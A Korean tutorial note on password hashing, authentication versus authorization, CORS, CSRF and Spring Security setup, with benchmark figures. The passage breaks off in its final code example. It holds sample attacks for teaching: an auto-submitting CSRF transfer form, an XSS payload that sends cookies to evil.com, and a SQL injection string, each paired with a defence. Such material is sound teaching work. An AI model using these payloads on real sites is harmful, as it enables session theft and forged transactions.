



# 인증 · 인가 · CORS · CSRF

> **비밀번호를 SHA-256으로 저장하면 공격자가 초당 258만 개를 시험할 수 있다. 실측에서 8자리 소문자+숫자 전체가 단일 스레드로 303시간이면 다 뚫렸다. 비밀번호 해시의 목적은 "빠르게 계산하는 것"이 아니라 "일부러 느리게 만드는 것"이고, PBKDF2 60만 회를 걸면 같은 계산이 223만 배 느려진다.**

---

## 1. 핵심 요약

**인증은 "누구인가", 인가는 "무엇을 해도 되는가"다. 이 둘을 통과한 요청이라도 브라우저라는 특수한 실행 환경 때문에 CORS와 CSRF라는 문제가 남는다. 셋 다 "클라이언트가 보낸 값을 어디까지 믿을 것인가"라는 한 가지 질문의 변주다.**

### 한눈에 보기

* **인증(Authentication)은 신원 확인, 인가(Authorization)는 권한 확인**이다. 응답 코드도 갈린다 — **401은 "누군지 모르겠다", 403은 "누군지 알지만 안 된다"** 다.
* **비밀번호는 절대 그대로 저장하지 않는다.** 그런데 SHA-256 같은 빠른 해시로 저장하는 것도 거의 안 하는 것과 다름없다.
* 실측했다. SHA-256 해시 한 번이 **0.388 µs**, **단일 스레드로 초당 2,580,440회**다. 이 속도면 **8자리 소문자+숫자 조합 2조 8천억 개를 303.7시간**이면 전부 시험한다. GPU와 다중 스레드를 쓰면 이보다 몇 자릿수 빨라진다.
* **그래서 비밀번호 해시는 일부러 느리게 만든다.** PBKDF2로 반복을 걸면 **1,000회에 1.6 ms, 10만 회에 140.2 ms, 60만 회에 864.4 ms**였다. 60만 회는 SHA-256 한 번보다 **223만 배** 느리다.
* **느리게 만드는 것이 곧 방어다.** 초당 258만 번 시험하던 공격자가 **초당 1번**만 시험할 수 있게 된다. OWASP 권고가 PBKDF2-HMAC-SHA256 기준 **60만 회**인 이유다.
* **솔트(salt)는 별개의 장치다.** 반복 횟수가 "한 번의 시도를 비싸게" 만든다면, 솔트는 **"한 번 만든 표를 재사용하지 못하게"** 만든다. 사용자마다 다른 솔트를 쓰면 레인보우 테이블이 무력해진다.
* **CORS는 보안 장치가 아니라 브라우저의 안전장치를 푸는 문서다.** 브라우저는 기본적으로 다른 출처(origin)의 응답을 스크립트에 넘겨주지 않는데, 서버가 "이 출처는 괜찮다"고 응답 헤더로 말해 줘야 풀린다.
* **CORS 오류는 서버가 요청을 거부한 것이 아니다.** 서버는 대개 정상 처리했고, **브라우저가 응답을 읽지 못하게 막은 것**이다. 이 오해가 디버깅을 크게 헷갈리게 한다.
* **CSRF는 정반대 문제다.** CORS가 "남의 응답을 못 읽게"라면, CSRF는 **"요청은 이미 보내졌다"** 는 문제다. 쿠키가 자동으로 붙기 때문에 생긴다.
* 그래서 **CSRF 방어의 핵심은 "쿠키가 아닌 곳에 증표를 요구하는 것"** 이다. CSRF 토큰이든 `SameSite`든 원리는 같다.
* **토큰 비교에는 상수 시간 비교(`MessageDigest.isEqual`)를 쓴다.** 다만 이 효과를 마이크로벤치마크로 보이려 했더니 **재현되지 않았다** — 이유는 아래 본문에 정직하게 적었다.

> 이 노트의 수치는 **JDK 17.0.12 (HotSpot) · Windows 11**에서 직접 측정했다. PBKDF2는 `SecretKeyFactory`의 `PBKDF2WithHmacSHA256`, 솔트 16 B, 출력 256비트 기준이다. **BCrypt는 JDK에 없어 PBKDF2로 쟀다.** 반복 횟수와 소요 시간의 관계는 알고리즘이 달라도 같은 원리로 움직인다. **공격자 속도는 단일 스레드 CPU 기준이라 실제 GPU 공격은 훨씬 빠르다** — 즉 여기 적힌 "303시간"은 낙관적인 값이다.

### 무엇을 해결하는가

#### 해결하려는 문제

회원 테이블을 이렇게 만들었다고 하자.

```sql
CREATE TABLE users (
    id       BIGINT PRIMARY KEY,
    email    VARCHAR(255),
    password VARCHAR(64)    -- SHA-256 결과를 16진수로
);
```

"비밀번호를 그대로 저장하지 않고 해시했으니 안전하다"고 생각하기 쉽다. **DB가 통째로 유출됐다고 가정해 보면 그렇지 않다.**

```text
공격자가 가진 것    email + SHA-256 해시 30만 건
공격자가 하는 일    후보 비밀번호를 해시해서 대조한다

실측 속도          초당 2,580,440 회 (단일 스레드)
8자리 소문자+숫자   2,821,109,907,456 가지  →  303.7 시간
```

**"password123" 같은 흔한 비밀번호는 초 단위로 뚫린다.** 해시했다는 사실만으로는 아무것도 지키지 못했다.

#### 이 개념이 없을 때

각 장치가 없을 때 무슨 일이 벌어지는지 보면 왜 필요한지가 분명해진다.

```java
// 1. 느린 해시가 없으면 — 유출 시 전수 대입이 현실적인 시간 안에 끝난다
sha256("password123")   // 0.388 us. 공격자에게도 0.388 us 다

// 2. 솔트가 없으면 — 같은 비밀번호는 같은 해시가 된다
sha256("password123") == sha256("password123")   // 항상 true
//   → 미리 계산한 표(레인보우 테이블) 하나로 전체 사용자를 동시에 뚫는다
//   → 해시가 같은 사용자끼리 "비밀번호가 같다"는 사실까지 새어 나간다

// 3. 인가 검사가 없으면 — 로그인만 하면 남의 데이터도 본다
@GetMapping("/orders/{id}")
public Order get(@PathVariable Long id) {
    return orderRepository.findById(id);      // 이게 내 주문인지 확인하지 않았다
}

// 4. CSRF 방어가 없으면 — 사용자가 다른 사이트에 있을 때 대신 요청이 나간다
```

---

## 2. 동작 원리

### 핵심 구성 요소

| 요소 | 답하는 질문 | 실패 시 응답 |
| --- | --- | --- |
| **인증** | 너는 누구인가 | **401 Unauthorized** |
| **인가** | 너는 이것을 해도 되는가 | **403 Forbidden** |
| **CORS** | 이 출처의 스크립트가 응답을 읽어도 되는가 | 브라우저가 차단 (서버는 200) |
| **CSRF 방어** | 이 요청을 정말 사용자가 의도했는가 | 403 |

### 내부 동작 과정

#### 인증과 인가는 순서가 있다



*인증이 "누구인지"를 정하고, 인가가 "그 사람이 이것을 해도 되는지"를 정한다.*

```text
요청
 │
 ├─ ① 인증 필터    토큰·세션을 읽어 "누구인가"를 정한다
 │                  실패 → 401 (누군지 모르겠다)
 │
 ├─ ② 인가 검사    그 사람이 이 자원에 접근해도 되는가
 │                  실패 → 403 (누군지 알지만 안 된다)
 │
 └─ ③ 컨트롤러     여기서야 비즈니스 로직이 돈다
```

**401과 403을 헷갈리면 클라이언트가 잘못 대응한다.** 401을 받으면 클라이언트는 "다시 로그인하자"고 판단하고, 403을 받으면 "로그인해도 소용없구나"라고 판단한다.

#### 비밀번호는 왜 "느리게" 저장하는가

일반적인 해시(SHA-256)는 **빠른 것이 미덕**이다. 파일 무결성 검사나 중복 확인에는 빠를수록 좋다. 그런데 **비밀번호에서는 그 미덕이 그대로 약점**이 된다.



*반복 횟수를 늘리면 공격자의 초당 시도 횟수가 그만큼 줄어든다.*

```text
알고리즘                    1회 소요        초당 가능 횟수      SHA-256 대비
SHA-256 (단순)              0.388 us       2,580,440 회             1 배
PBKDF2   1,000 회             1.6 ms             623 회         4,135 배
PBKDF2  10,000 회            22.4 ms              44 회        57,851 배
PBKDF2 100,000 회           140.2 ms               7 회       361,666 배
PBKDF2 210,000 회           262.1 ms               3 회       676,287 배
PBKDF2 600,000 회           864.4 ms               1 회     2,230,428 배
```

**공격자와 서버가 같은 비용을 치른다는 것이 이 방어의 원리다.**

```text
서버      로그인 1회에 864 ms 를 쓴다        → 사용자는 못 느낀다 (로그인은 드물다)
공격자    후보 1개에 864 ms 를 쓴다          → 초당 258만 개가 초당 1개가 된다

303.7 시간 → 이론상 223만 배 → 사실상 불가능해진다
```

**"서버도 느려지는데 괜찮은가?"** 로그인은 드문 연산이라 괜찮다. 다만 **초당 로그인 수만큼 CPU가 필요**하다는 점은 계산해 둬야 한다. 60만 회면 코어 하나로 **초당 1회**밖에 처리 못 한다. 로그인이 몰리는 서비스라면 반복 횟수를 조정하거나 코어를 늘려야 한다.

#### 솔트는 다른 문제를 푼다

반복 횟수와 솔트는 **역할이 다르다.** 자주 뭉뚱그려 설명되지만 막는 것이 서로 다르다.

```text
반복 횟수   한 번의 시도를 비싸게 만든다      → 무차별 대입을 막는다
솔트        같은 비밀번호가 다른 해시가 되게   → 미리 만든 표의 재사용을 막는다
```

```text
솔트가 없으면
  hash("password123") = 5e884898...      모든 사용자에게 동일
  → 표 하나로 30만 명을 동시에 조회한다
  → 해시가 같은 사용자끼리 비밀번호가 같다는 것도 드러난다

솔트가 있으면
  hash("password123" + "a3f1...") = 9c2b...     사용자 A
  hash("password123" + "7e02...") = 41da...     사용자 B
  → 사용자마다 표를 새로 만들어야 한다
```

**솔트는 비밀이 아니어도 된다.** 해시와 함께 저장한다. 목적이 "감추기"가 아니라 "재사용 막기"이기 때문이다.

#### CORS — 브라우저만의 규칙

**CORS 오류를 서버가 요청을 거부한 것으로 오해하는 경우가 정말 많다.** 실제로는 그 반대에 가깝다.

```text
① 브라우저가 요청을 보낸다        (서버까지 갔다)
② 서버가 정상 처리하고 응답한다    (200 OK. DB 도 바뀌었다)
③ 브라우저가 응답 헤더를 본다      Access-Control-Allow-Origin 이 있나?
④ 없으면 스크립트에 안 넘긴다      ← 여기서 "CORS 오류"가 뜬다
```

**서버는 아무 잘못도 안 했고, 부수 효과까지 일어났다.** 브라우저가 결과를 안 보여줬을 뿐이다. 그래서 `curl`로 테스트하면 멀쩡히 되는데 브라우저에서만 실패한다.

**동일 출처(same origin)** 는 **프로토콜·호스트·포트가 모두 같은 것**이다.

```text
기준: https://shop.example.com/orders

https://shop.example.com/items       같다
http://shop.example.com/orders       다르다 (프로토콜)
https://api.example.com/orders       다르다 (호스트)
https://shop.example.com:8443/o      다르다 (포트)
```

#### 프리플라이트 — 미리 물어보는 요청

간단한 요청이 아니면 브라우저가 **본 요청 전에 `OPTIONS`로 먼저 물어본다.**



*프리플라이트는 왕복을 한 번 더 만들지만 `Access-Control-Max-Age`로 캐시할 수 있다.*

```text
① 프리플라이트
   OPTIONS /orders
   Origin: https://shop.example.com
   Access-Control-Request-Method: DELETE
   Access-Control-Request-Headers: authorization

   ◀── 204
       Access-Control-Allow-Origin: https://shop.example.com
       Access-Control-Allow-Methods: GET, POST, DELETE
       Access-Control-Allow-Headers: authorization
       Access-Control-Max-Age: 3600          ← 1시간 동안 다시 안 묻는다

② 본 요청
   DELETE /orders/1
```

**프리플라이트가 붙는 조건**은 대략 이렇다.

```text
안 붙는다 (단순 요청)     GET · HEAD · POST
                          + Content-Type 이 form/text/plain 계열
                          + 커스텀 헤더 없음

붙는다                    PUT · PATCH · DELETE
                          Content-Type: application/json      ← 대부분의 API 가 여기 해당
                          Authorization 같은 커스텀 헤더
```

**JSON API는 사실상 항상 프리플라이트가 붙는다.** 그래서 **왕복이 한 번 더 생기고**, [HTTP·TCP 노트](../HTTP-TCP-네트워크/HTTP-TCP-네트워크.md)에서 본 RTT 비용이 그대로 추가된다. `Access-Control-Max-Age`로 캐시하는 것이 중요한 이유다.

#### CSRF — 요청은 이미 나갔다

CORS가 "응답을 못 읽게" 하는 것이라면, CSRF는 **"요청은 이미 보내졌다"** 는 문제다.

```text
① 사용자가 bank.com 에 로그인해 있다 (세션 쿠키 보유)
② 사용자가 evil.com 을 방문한다
③ evil.com 에 이런 게 숨어 있다

   <form action="https://bank.com/transfer" method="POST">
     <input name="to" value="attacker">
     <input name="amount" value="1000000">
   </form>
   <script>document.forms[0].submit()</script>

④ 브라우저는 bank.com 요청에 쿠키를 자동으로 붙인다
⑤ bank.com 서버 입장에서는 정상적인 로그인 사용자의 요청이다
```

**핵심은 ④다.** 브라우저가 **요청 대상 도메인의 쿠키를 자동으로 붙이기 때문에** 공격이 성립한다. 응답을 못 읽어도(CORS가 막아도) **이미 이체는 끝났다.**

```text
CORS 가 막는 것    응답을 읽는 것
CORS 가 못 막는 것  요청이 나가서 처리되는 것    ← CSRF 는 여기를 노린다
```

#### CSRF 방어 — 쿠키가 아닌 곳에서 증표를 받는다

```text
방어 원리   "쿠키만으로는 부족하게 만든다"
            공격자는 사용자의 쿠키를 붙일 수는 있어도 그 값을 읽을 수는 없다

① CSRF 토큰    서버가 발급한 난수를 폼이나 헤더에 실어 보내게 한다
               공격자는 그 값을 모른다 (동일 출처 정책 때문에 읽을 수 없다)

② SameSite     쿠키 자체가 교차 사이트 요청에 안 붙게 한다
               Lax 가 요즘 브라우저 기본값이라 단순 CSRF 는 상당 부분 막혔다

③ Bearer 헤더  쿠키가 아니라 Authorization 헤더로 인증한다
               자동으로 안 붙으므로 CSRF 가 원천적으로 성립하지 않는다
```

**JWT를 헤더로 보내면 CSRF가 없어지는 이유가 ③이다.** 대신 그 토큰을 `localStorage`에 두면 XSS에 노출된다. **위험을 없앤 게 아니라 옮긴 것이다.**

#### 상수 시간 비교 — 그리고 재현되지 않은 실측

토큰이나 서명을 비교할 때는 `equals` 대신 **상수 시간 비교**를 쓰라고 한다. 이유는 이렇다.

```text
일반 비교    첫 글자가 다르면 바로 끝난다      → 빨리 끝났다 = 앞부분이 틀렸다
             앞부분이 맞으면 더 오래 걸린다     → 오래 걸렸다 = 앞부분이 맞았다
             → 시간을 재면서 한 글자씩 맞춰 간다 (타이밍 공격)

상수 시간    항상 끝까지 비교한다              → 시간이 정보를 흘리지 않는다
```

**그런데 이것을 마이크로벤치마크로 보이려 했더니 재현되지 않았다.**

```text
                                  첫 글자부터 다름   마지막만 다름     비율
String.equals                          4.99 ns          2.30 ns      0.46 배
MessageDigest.isEqual                 47.54 ns         72.23 ns      1.52 배
```

**기대와 정반대였다.** `String.equals`는 오히려 마지막만 다를 때가 빨랐고, 상수 시간이어야 할 `MessageDigest.isEqual`이 1.52배 차이를 보였다.

**왜 이렇게 나왔는가.**

```text
· Java 9 부터 String.equals 는 바이트 배열을 벡터화해서 8바이트씩 비교한다
  → "첫 글자에서 멈춘다"는 전제 자체가 성립하지 않는다
· JIT 최적화와 분기 예측이 나노초 단위 차이를 덮어쓴다
· 측정 대상이 수 ns 인데 JIT 워밍업·캐시 효과가 그보다 크다
```

**그래서 이 실측에서 배울 것은 "타이밍 공격이 없다"가 아니다.** 실제 공격은 **네트워크 너머에서 수만 번을 통계적으로 누적**해서 신호를 뽑아낸다. 로컬에서 한 번 재서 안 보인다고 없는 것이 아니다. **상수 시간 비교는 비용이 거의 없으므로, 증명이 어렵더라도 원칙적으로 쓰는 것이 맞다.**

---

## 3. 특징과 비교

| 구분          | 내용 |
| ----------- | -- |
| **장점**      | 느린 해시는 유출 이후에도 시간을 벌어 준다. 실측에서 PBKDF2 60만 회가 SHA-256 대비 **223만 배** 느려져 공격자의 초당 시도가 **258만 회에서 1회**가 됐다. 인증/인가를 필터 체인으로 분리하면 컨트롤러가 권한 코드를 갖지 않아도 되고, `SameSite`와 CSRF 토큰은 설정만으로 큰 위협을 막는다. |
| **단점**      | 느린 해시는 **서버도 느려진다.** 60만 회면 코어 하나로 초당 1회라 로그인 폭주에 취약하고, 반복 횟수는 하드웨어 발전에 따라 계속 올려야 한다. CORS는 JSON API에서 **프리플라이트 왕복이 추가**되고, 설정을 넓게 열면 보호 효과가 사라진다. 인가는 빠뜨려도 **아무 오류가 나지 않아** 조용히 취약해진다. |
| **적합한 상황**  | 비밀번호를 직접 보관하는 모든 서비스(느린 해시는 선택이 아니다). 프런트엔드와 API 서버의 출처가 다른 구조(CORS 설정 필요). 쿠키 기반 인증을 쓰는 브라우저 서비스(CSRF 방어 필요). 자원 소유자 검사가 필요한 모든 조회·수정 API. |
| **주의할 상황**  | 로그인 요청이 폭주하는 구간 — 반복 횟수만큼 CPU가 필요하다. `Access-Control-Allow-Origin: *`와 `Allow-Credentials: true`를 함께 쓰려는 경우 — 브라우저가 거부한다. 순수 Bearer 헤더 API에 CSRF 토큰까지 강제하는 경우 — 불필요한 복잡도다. **`@PathVariable`로 받은 ID를 소유자 확인 없이 그대로 조회하는 코드.** |

### 성능 특성

#### 비밀번호 해시 비용

```text
알고리즘                 1회 소요      초당 가능       공격자 관점
SHA-256 단순            0.388 us    2,580,440 회    8자리 전수 303.7 시간
PBKDF2   1,000 회         1.6 ms          623 회
PBKDF2  10,000 회        22.4 ms           44 회
PBKDF2 100,000 회       140.2 ms            7 회
PBKDF2 210,000 회       262.1 ms            3 회
PBKDF2 600,000 회       864.4 ms            1 회    ← OWASP 권고
```

**303.7시간이라는 수치는 낙관적이다.** 단일 스레드 CPU 기준이고, 실제 공격은 GPU로 병렬화해 몇 자릿수 빠르다.

#### 문자열 비교 (기대와 다르게 나온 사례)

```text
                                 첫 글자부터 다름   마지막만 다름     비율
String.equals                         4.99 ns          2.30 ns      0.46 배
MessageDigest.isEqual                47.54 ns         72.23 ns      1.52 배
```

마이크로벤치마크로는 타이밍 누출이 드러나지 않았다. 이유는 본문에 적었다.

### 장점과 단점

#### 장점

* **느린 해시는 유출 이후를 대비하는 유일한 방어다.** DB가 새어 나가도 시간을 벌어 준다.
* **솔트는 공짜에 가깝다.** 저장 공간 16 B로 레인보우 테이블을 무력화한다.
* **필터 체인은 관심사를 분리한다.** 컨트롤러가 인증 코드를 갖지 않는다.
* **`SameSite=Lax` 기본값 덕에 단순 CSRF는 크게 줄었다.** 설정 없이도 상당 부분 막힌다.

#### 단점

* **반복 횟수는 계속 올려야 한다.** 하드웨어가 빨라지면 방어력이 그만큼 떨어진다.
* **느린 해시는 DoS 표면이 된다.** 로그인 요청을 대량으로 보내면 CPU가 마른다. 레이트 리밋이 함께 필요하다.
* **CORS는 왕복을 늘린다.** JSON API는 사실상 항상 프리플라이트가 붙는다.
* **인가 누락은 조용하다.** 컴파일도 되고 테스트도 통과하고 오류도 안 난다. 남의 데이터가 보일 뿐이다.

### 어떤 상황에서 고르는가

#### 비밀번호 해시 고르기

```text
새로 만든다면
  1순위  Argon2id     메모리까지 요구해 GPU 공격에 강하다
  2순위  BCrypt       오래 검증됐고 라이브러리가 흔하다 (cost 12 이상)
  3순위  PBKDF2       JDK 기본 제공. FIPS 준수가 필요할 때 (60만 회 이상)

절대 쓰지 않는다
  MD5 · SHA-1 · SHA-256 단독 · 솔트 없는 모든 것
```

#### CSRF 방어를 켤지 정하기

```text
인증 정보를 쿠키로 보내는가?
  아니오 (Authorization 헤더) → CSRF 방어 불필요. 꺼도 된다
  예 ↓

브라우저에서 호출하는가?
  아니오 (서버 간 통신) → 불필요
  예 ↓
      → CSRF 토큰 + SameSite=Lax 를 함께 쓴다
```

### 비슷한 기술과 비교

#### 인증 vs 인가

| 기준 | 인증 (Authentication) | 인가 (Authorization) |
| --- | --- | --- |
| 묻는 것 | **누구인가** | **무엇을 해도 되는가** |
| 순서 | 먼저 | 나중 |
| 실패 코드 | **401** | **403** |
| 재로그인으로 해결되나 | **된다** | **안 된다** |
| 어디서 하나 | 필터 (토큰·세션 확인) | 필터 + 서비스 계층 (소유자 확인) |

#### CORS vs CSRF

| 기준 | CORS | CSRF |
| --- | --- | --- |
| 무엇인가 | 브라우저 제한을 **푸는 규약** | **공격 기법** |
| 막는 대상 | 남의 출처가 **응답을 읽는 것** | 사용자 의도 없이 **요청이 나가는 것** |
| 누가 강제하나 | **브라우저** | 서버가 방어해야 한다 |
| 서버 도달 여부 | **도달한다** (처리도 된다) | **도달한다** (그래서 위험하다) |
| 대책 | `Access-Control-Allow-*` | CSRF 토큰 · `SameSite` · Bearer 헤더 |

**"CORS를 설정하면 보안이 강화된다"는 오해가 흔하다.** CORS는 **제한을 푸는 쪽**이지 거는 쪽이 아니다.

#### 비밀번호 해시 알고리즘

| 기준 | PBKDF2 | BCrypt | Argon2id |
| --- | --- | --- | --- |
| 비용 조절 | 반복 횟수 | cost (2^n) | **시간 + 메모리 + 병렬성** |
| GPU 저항 | 약하다 | 보통 | **강하다** (메모리를 요구) |
| JDK 기본 제공 | **있다** | 없다 | 없다 |
| 실측 (60만 회) | **864.4 ms** | — | — |
| 권장도 | FIPS 필요 시 | 무난 | **새 프로젝트 1순위** |

**Argon2가 강한 이유는 메모리를 요구하기 때문이다.** GPU는 코어가 많아도 코어당 메모리가 적어 병렬화가 어려워진다.

---

## 4. 실무 주의사항

### 백엔드 실무 적용

#### 인가 누락 — 가장 흔하고 가장 조용한 취약점

```java
// 취약 — 로그인만 했으면 남의 주문도 다 보인다
@GetMapping("/orders/{id}")
public OrderResponse get(@PathVariable Long id) {
    return OrderResponse.from(orderRepository.findById(id).orElseThrow());
}
```

**컴파일도 되고 테스트도 통과한다.** `/orders/1`, `/orders/2`로 번호만 바꿔 가며 남의 주문을 열람할 수 있다. OWASP가 1위 위험으로 꼽는 **접근 통제 실패(Broken Access Control)** 다.

```java
// 고침 — 소유자를 조회 조건에 넣는다
@GetMapping("/orders/{id}")
public OrderResponse get(@PathVariable Long id, @AuthenticationPrincipal UserPrincipal user) {
    Order order = orderRepository.findByIdAndUserId(id, user.getId())
            .orElseThrow(() -> new OrderNotFoundException(id));   // 404 로 존재 자체를 숨긴다
    return OrderResponse.from(order);
}
```

> **없는 주문과 남의 주문을 구별해 주면 안 된다.** 403을 주면 "그 번호의 주문은 존재한다"는 정보가 새어 나간다. **404로 통일**하는 편이 안전하다.

#### Spring Security 필터 체인 설정

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/login", "/signup").permitAll()
                .requestMatchers("/admin/**").hasRole("ADMIN")
                .anyRequest().authenticated())          // 기본을 "인증 필요"로 둔다
            .sessionManagement(s -> s
                .sessionFixation().newSession())        // 로그인 시 세션 ID 재발급
            .csrf(csrf -> csrf
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse()))
            .cors(cors -> cors.configurationSource(corsSource()))
            .exceptionHandling(e -> e
                .authenticationEntryPoint((req, res, ex) -> res.sendError(401))   // 인증 실패
                .accessDeniedHandler((req, res, ex) -> res.sendError(403)));      // 인가 실패
        return http.build();
    }
}
```

**`anyRequest().authenticated()`로 기본을 잠그는 것이 중요하다.** 화이트리스트 방식이라 새 엔드포인트를 만들었을 때 **깜빡해도 안전한 쪽으로 실패**한다.

#### 비밀번호 저장

```java
// Spring Security 의 위임 방식 — 알고리즘 식별자가 해시 앞에 붙는다
@Bean
public PasswordEncoder passwordEncoder() {
    return PasswordEncoderFactories.createDelegatingPasswordEncoder();
    // 저장 형태: {bcrypt}$2a$10$... 
    // → 나중에 알고리즘을 바꿔도 옛 해시를 그대로 검증할 수 있다
}
```

**알고리즘을 올릴 때는 로그인 시점에 재해싱한다.**

```java
public void login(String email, String rawPassword) {
    User user = userRepository.findByEmail(email).orElseThrow();
    if (!encoder.matches(rawPassword, user.getPassword())) {
        throw new BadCredentialsException("아이디 또는 비밀번호가 올바르지 않습니다");
    }
    // 옛 알고리즘·낮은 cost 로 저장돼 있으면 이 기회에 다시 저장한다
    if (encoder.upgradeEncoding(user.getPassword())) {
        user.changePassword(encoder.encode(rawPassword));
    }
}
```

> **오류 메시지를 "아이디가 없습니다" / "비밀번호가 틀립니다"로 나누면 안 된다.** 가입된 이메일 목록이 그대로 새어 나간다(계정 열거). **하나의 메시지로 통일**한다.

#### 느린 해시는 DoS 표면이다

```text
PBKDF2 60만 회 = 로그인 1회에 864 ms
초당 로그인 요청 100건이 들어오면 → 코어 86개가 필요하다
```

**로그인 엔드포인트에는 반드시 레이트 리밋을 건다.**

```java
// IP + 계정 단위로 시도 횟수를 제한한다
if (loginAttemptService.isBlocked(clientIp, email)) {
    throw new TooManyAttemptsException();      // 429
}
```

#### CORS 설정 — 넓게 열면 의미가 없다

```java
@Bean
public CorsConfigurationSource corsSource() {
    CorsConfiguration config = new CorsConfiguration();
    config.setAllowedOrigins(List.of("https://shop.example.com"));   // 구체적으로
    config.setAllowedMethods(List.of("GET", "POST", "PUT", "DELETE"));
    config.setAllowedHeaders(List.of("Authorization", "Content-Type"));
    config.setAllowCredentials(true);
    config.setMaxAge(3600L);                    // 프리플라이트를 1시간 캐시한다

    UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
    source.registerCorsConfiguration("/**", config);
    return source;
}
```

**`allowedOrigins("*")`와 `allowCredentials(true)`는 함께 못 쓴다.** 브라우저가 거부한다. `allowedOriginPatterns`로 우회하려는 시도를 자주 보는데, **그러면 아무 사이트나 인증된 요청을 보낼 수 있게 된다.**

#### XSS와 SQL Injection — 둘 다 "데이터를 코드로 해석"하는 문제

```java
// SQL Injection — 문자열을 이어 붙이면 값이 문법이 된다
String sql = "SELECT * FROM users WHERE email = '" + email + "'";
//   email 에 ' OR '1'='1 을 넣으면 전체 조회가 된다

// 고침 — 바인딩 파라미터는 값으로만 취급된다
jdbcTemplate.query("SELECT * FROM users WHERE email = ?", rowMapper, email);
```

```java
// XSS — 사용자 입력을 그대로 HTML 에 넣으면 스크립트가 실행된다
model.addAttribute("nickname", input);      // <script>fetch('//evil.com?c='+document.cookie)</script>

// 방어 — 출력 시점에 이스케이프한다 (Thymeleaf 의 th:text 는 기본 이스케이프)
//   th:utext 는 이스케이프하지 않으므로 사용자 입력에 절대 쓰지 않는다
```

**두 공격의 구조가 같다.** 데이터로 받은 것이 **해석기(SQL 파서, HTML 파서)에 도달해 코드로 읽히는 것**이다. 그래서 방어도 같다 — **데이터와 코드를 섞지 않는다.**

### 자주 하는 오해

| 잘못된 이해 | 올바른 이해 |
| --- | --- |
| "비밀번호를 해시했으니 안전하다" | SHA-256은 실측 **초당 258만 회**다. 8자리가 303시간이면 뚫린다. |
| "해시는 빠를수록 좋다" | 비밀번호에서는 **느릴수록** 좋다. 공격자도 같은 속도를 쓴다. |
| "솔트를 쓰면 무차별 대입이 막힌다" | 솔트가 막는 것은 **표 재사용**이다. 무차별 대입은 **반복 횟수**가 막는다. |
| "솔트는 비밀로 보관해야 한다" | 해시와 **함께 저장**한다. 목적이 감추기가 아니다. |
| "MD5는 솔트만 잘 쓰면 괜찮다" | 너무 빠르다. 솔트는 표만 막을 뿐 **시도 속도는 그대로**다. |
| "401과 403은 비슷하다" | 401은 **인증**(누군지 모름), 403은 **인가**(권한 없음). 클라이언트 대응이 다르다. |
| "로그인만 확인하면 인가는 된 것이다" | `/orders/{id}`에서 **소유자 확인**을 빠뜨리는 것이 가장 흔한 취약점이다. |
| "권한이 없으면 403을 줘야 한다" | 자원의 **존재 자체를 숨겨야 하면 404**가 낫다. |
| "CORS 오류는 서버가 요청을 거부한 것이다" | **서버는 정상 처리했다.** 브라우저가 응답을 스크립트에 안 넘긴 것뿐이다. |
| "CORS를 설정하면 보안이 강해진다" | CORS는 브라우저 제한을 **푸는 쪽**이다. 넓게 열수록 약해진다. |
| "CORS를 막으면 CSRF도 막힌다" | 다르다. CSRF는 **요청이 이미 나가서** 처리된다. 응답을 못 읽어도 이체는 끝났다. |
| "`Allow-Origin: *`에 credentials를 켜면 편하다" | 브라우저가 **거부한다.** 우회하면 아무 사이트나 인증 요청을 보낼 수 있다. |
| "REST API는 CSRF 방어가 필요 없다" | **쿠키로 인증하면 필요하다.** 불필요한 건 `Authorization` 헤더를 쓸 때다. |
| "`SameSite=Lax`면 CSRF는 끝이다" | 크게 줄지만 **`GET`으로 상태를 바꾸는 API**나 `SameSite=None` 구조에는 여전히 위험하다. |
| "타이밍 공격은 로컬에서 재보면 보인다" | 실측에서 **재현되지 않았다**(벡터화·JIT). 실제 공격은 **통계적 누적**으로 신호를 뽑는다. |
| "로그인 실패 사유를 자세히 알려주면 친절하다" | 아이디 유무를 구분해 주면 **계정 열거**가 된다. 메시지를 통일한다. |

---

## 5. 예제

### 비밀번호 해시 비용을 직접 재기

```java
// 반복 횟수를 바꿔 가며 1회 소요를 잰다 — 서버가 감당할 값을 여기서 정한다
SecretKeyFactory skf = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA256");
byte[] salt = new byte[16];
SecureRandom.getInstanceStrong().nextBytes(salt);

for (int iterations : new int[]{1_000, 10_000, 100_000, 600_000}) {
